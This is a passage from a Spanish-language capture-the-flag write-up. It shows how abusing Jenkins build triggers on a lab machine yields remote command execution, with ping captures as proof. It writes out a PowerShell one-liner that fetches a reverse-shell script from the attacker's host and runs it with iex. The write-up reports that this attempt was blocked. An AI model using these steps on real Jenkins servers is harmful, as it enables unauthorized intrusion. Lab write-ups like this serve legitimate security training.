 ## Building The Jenkins Project -> RCE
Buscando un poco me encontré lo siguiente:
> - If **Build now** button doesn't appear, you can still go to **configure** --> **Build Triggers** --> `Build periodically` and set a cron of `* * * * *`
>     
> - Instead of using cron, you can use the config "**Trigger builds remotely**" where you just need to set a the api token name to trigger the job. Then go to your user profile and **generate an API token** (call this API token as you called the api token to trigger the job). Finally, trigger the job with: `**curl <username>:<api_token>@<jenkins_url>/job/<job_name>/build?token=<api_token_name>**`

Establecemos el tiempo por cada ejecución, cada minuto.
![Write-up Image](images/Screenshot_8.png)

Y conseguimos ejecución remota de comandos.
```console
21:57:58.440906 IP 10.10.14.108 > object.htb: ICMP echo reply, id 1, seq 3227, length 40  
21:57:59.456503 IP object.htb > 10.10.14.108: ICMP echo request, id 1, seq 3230, length 40
21:57:59.456528 IP 10.10.14.108 > object.htb: ICMP echo reply, id 1, seq 3230, length 40  
21:58:00.472438 IP object.htb > 10.10.14.108: ICMP echo request, id 1, seq 3234, length 40
```

Al intentar mandarnos una reverse shell.

```powershell
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://10.10.14.108:8081/Invoke-PowerShellTcp.ps1')|iex"
```

Nos indica que no ha sido capaz de conectarse a un servidor remoto, por lo cual puede que se estén bloqueando las conexiones.
![Write-up Image](images/Screenshot_9.png)
